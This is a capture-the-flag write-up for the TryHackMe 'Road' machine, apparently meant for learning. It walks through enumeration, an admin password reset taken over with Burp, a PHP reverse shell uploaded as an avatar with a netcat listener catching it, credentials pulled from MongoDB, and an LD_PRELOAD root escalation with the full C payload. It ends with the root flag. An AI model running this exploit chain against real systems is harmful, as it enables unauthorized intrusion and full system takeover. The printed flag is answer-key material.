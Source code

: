 # Road
```sh
export IP=M_ip
```
# Enumeration:

```sh
nmap -A -sC -sV $IP
```
```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 20:57 CEST
Nmap scan report for 10.10.0.79
Host is up (0.086s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sky Couriers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
in the first dir bruteforce:

```sh
gobuster dir -u http://10.10.0.79 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
```sh
/v2                   (Status: 301) [Size: 305] [--> http://10.10.0.79/v2/]
```
in the second dir bruteforce:
```sh
gobuster dir -u http://10.10.0.79/v2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
```sh
/admin                (Status: 301) [Size: 311] [--> http://10.10.0.79/v2/admin/]
```
visiting /v2/admin:

![Screenshot_25](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/55ac3812-1da6-47f6-be51-f3b26915689d)


I found /ResetUser.php  so i was able to changed admin password in burpsuite, like this : 

![Screenshot_27](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/39a6fd6f-d2c8-44c9-8775-2821fe690832)


By doing this i found upload avatar in the Profile
That might get us to manipulate the php-reverse-shell extension to be .php instead of .jpg 


![Screenshot_26](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/6e2bedaf-595b-4c9e-b760-7e7e3d2ce203)



![Screenshot_28](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/ccfb0248-3d53-49fd-8313-411d09fe0cd9)


This is the dir that has our revshell i found it in the admin  /profile.php  source code 

![Screenshot_29](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/cb24afb2-0e7a-48e7-ac78-6ea2f4e66395)

```sh
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.0.79] 37742
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:02:45 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
# stabilize the reverse shell :
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press CTRL + Z to background process and get back to your host machine
stty raw -echo; fg
export TERM=xterm
```
# Privilege escalation:
```sh
www-data@sky:/$ ss -tulpn
Netid State  Recv-Q  Send-Q     Local Address:Port    Peer Address:Port Process 
udp   UNCONN 0       0          127.0.0.53%lo:53           0.0.0.0:*            
udp   UNCONN 0       0        10.10.0.79%eth0:68           0.0.0.0:*            
tcp   LISTEN 0       70             127.0.0.1:33060        0.0.0.0:*            
tcp   LISTEN 0       511            127.0.0.1:9000         0.0.0.0:*            
tcp   LISTEN 0       4096           127.0.0.1:27017        0.0.0.0:*            
tcp   LISTEN 0       151            127.0.0.1:3306         0.0.0.0:*            
tcp   LISTEN 0       4096       127.0.0.53%lo:53           0.0.0.0:*            
tcp   LISTEN 0       128              0.0.0.0:22           0.0.0.0:*            
tcp   LISTEN 0       511                    *:80                 *:*            
tcp   LISTEN 0       128                 [::]:22              [::]:*
```
```sh
There is:
port 33060: default port for MYSQL  
port 27017: default port for MongoDB
```

```sh

> show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "fakePassword" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
> 
```
```sh
ssh webdeveloper@IP 
```
```sh
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```
LD_PRELOAD is an environment variable in Unix-like systems, such as Linux, that allows you to specify additional shared libraries to be loaded before all others.
With this i could write c code script to spawn a root shell ,shell.c
```sh
#include <stdio.h> 
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
 	unsetenv("LD_PRELOAD");
 	setgid(0);
 	setuid(0);
 	system("/bin/bash");
}
```
compile the code:
```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
and run
sudo LD_PRELOAD=/home/webdeveloper/shell.so sky_backup_utility
```
```sh
webdeveloper@sky:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
webdeveloper@sky:~$ sudo LD_PRELOAD=/home/webdeveloper/shell.so sky_backup_utility
root@sky:/home/webdeveloper# cd /root
root@sky:~# ls
root.txt
root@sky:~# cat root.txt 
3a62d897c40a8flag
root@sky:~#

```
